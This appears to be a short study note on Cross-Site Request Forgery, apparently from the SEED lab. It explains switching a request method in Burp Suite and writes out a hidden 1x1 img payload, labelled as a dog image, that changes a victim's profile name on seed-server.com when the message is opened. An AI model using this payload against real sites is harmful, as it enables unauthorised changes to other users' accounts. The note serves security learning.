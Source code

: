
# Cross-Site Request Forgery

Unauthorized access to change some information (like password) of an user account. (Do a malicious request that execute the victim)

----

1. Try to change the post method, sending a get method (in repeater burpsuite you can **change request method**), and the request works

2. you have to put the data of the other profile like id.... Remember you can try to delete unnecessary data in the request

3. Send a message to the other user with the url obtained in burpsuite:

If you can send the message with html you can try this:

````html
<img src="http://www.seed-server.com/action/profile/edit?name=Hacked&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56" alt="dog image" width="1" height="1" />
````

See that you send a fake image, in alt parameter you indicate that is a "dog image" and width="1" and height="1". This make that the other user don't see the image break

If the user open the message, the name of the account change. This is because he is doing the action to change the name in the background

---

# Tags

#csrf #xsrf #vulnerabilty

---